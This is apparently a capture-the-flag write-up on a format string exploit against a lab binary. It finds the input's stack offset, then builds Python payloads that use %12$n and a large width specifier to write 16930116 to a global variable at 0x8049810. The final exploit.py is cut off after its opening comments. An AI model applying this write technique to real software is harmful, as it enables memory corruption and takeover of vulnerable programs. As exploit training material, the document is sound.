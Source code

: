 ### Target Analysis
- **Global Variable**: `m` at address `0x8049810`
- **Current Value**: 0 (initialized)
- **Required Value**: `16930116` (decimal) = `0x1025544` (hex)
- **Challenge**: Efficiently writing such a large value using format strings

### Memory Layout
```
0x8049810: m (global variable, 4 bytes, writable)
Stack Layout during printf():
- Position 12: Our input buffer address
- Positions 1-11: Various stack values and addresses
```

## Exploitation Development Process

### Phase 1: Stack Position Discovery
Used systematic approach to find input position on stack:

```bash
# Test payload: "AAAA%1$x.%2$x.%3$x..." up to %20$x
# Result: Found "AAAA" (0x41414141) at position 12
# Conclusion: Use %12$n to write to address at position 12
```

### Phase 2: Basic Format String Testing
```python
# Initial test with smaller values
payload = struct.pack("<L", 0x8049810) + "%12$n"
# This writes 4 (length of address) to the global variable
```

### Phase 3: Large Value Challenge
The target value 16930116 is too large for simple approaches:
- Cannot practically print 16,930,116 individual characters
- Standard format string techniques become inefficient
- Need advanced technique: **Width Specifiers**

### Phase 4: Width Specifier Solution
Discovery of efficient technique using `%[width]c`:

```python
# %16930112c prints 1 character padded to 16930112 width
# Total characters: 4 (address) + 16930112 (padding) = 16930116
remaining = 16930116 - 4  # Account for 4-byte address
payload = struct.pack("<L", target_addr) + "%" + str(remaining) + "c%12$n"
```

## Final Exploit Implementation

### exploit.py (Production Version)
```python
#!/usr/bin/env python2

import struct
import sys

# Target: Write 16930116 (0x1025544) to global variable at 0x8049810
target_addr = 0x8049810
target_value = 16930116  # 0x1025544

# Our input appears at position 12 on the stack
# So we use %12$n to write to the address at position 12
```